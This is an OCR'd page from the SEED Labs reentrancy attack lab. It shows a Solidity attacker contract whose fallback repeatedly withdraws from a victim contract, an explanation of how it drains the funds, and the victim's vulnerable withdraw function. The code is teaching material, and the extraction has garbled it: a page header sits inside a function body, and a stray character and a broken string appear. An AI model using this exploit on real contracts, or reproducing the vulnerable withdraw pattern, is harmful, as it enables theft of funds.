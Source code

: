 ```sol
//SPDX-License-Identifier: UNLICENSED
pragma solidity ˆ0.6.8;

import "./ReentrancyVictim.sol";

contract ReentrancyAttacker {
    ReentrancyVictim public victim;
    address payable _owner;
    
    constructor(address payable _addr) public {
        victim = ReentrancyVictim(_addr);
        _owner = payable(msg.sender);
    }

    fallback() external payable {
        if(address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
            SEED Labs – Reentrancy Attack Lab 7
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "You need to send one ether
                                        when attacking");
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

    function cashOut(address payable _addr) external payable {
        require(msg.sender == _owner);
        _addr.transfer(address(this).balance);
    }
}
```
*Listing 5: The attack contract (`ReentrancyAttacker.sol`)*

The most important functions of this contract are `attack()` and `fallback()`. We will explain how this contract can be used to steal all the money from the victim contract. After deploying the contract, the attack invokes the `attack()` function and send at least one ether to this contract. This function will deposit one ether to the victim contract by invoking its `deposit()` function. After depositing the money, the attacker contract immediately withdraw one ether from the victim contract. This is what triggers the attack. Let us see what will happen when the `withdraw()` function is invoked. We list the code of the victim contract’s `withdraw()` function below.

```python
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);            # $1
   
    (bool sent, ) = msg.sender.call{value: _amount}(""); # $2
    ...

    balances[msg.sender] -= _amount;                     # $3
}
```
